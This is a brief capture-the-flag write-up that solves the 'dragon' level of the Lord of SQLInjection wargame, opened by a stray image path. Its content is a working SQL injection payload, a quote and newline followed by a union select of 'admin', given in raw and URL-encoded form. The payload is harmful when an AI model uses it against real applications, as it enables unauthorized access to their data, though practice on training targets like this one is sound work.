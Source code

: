# Lord of SQLInjection dragon Solution

The payload will be 
```
'
and 0 union select 'admin'--%0b
```

notice the \n between `'` and `and`

the encoded payload is `%27%0Aand%200%20union%20select%20%27admin%27--%0b`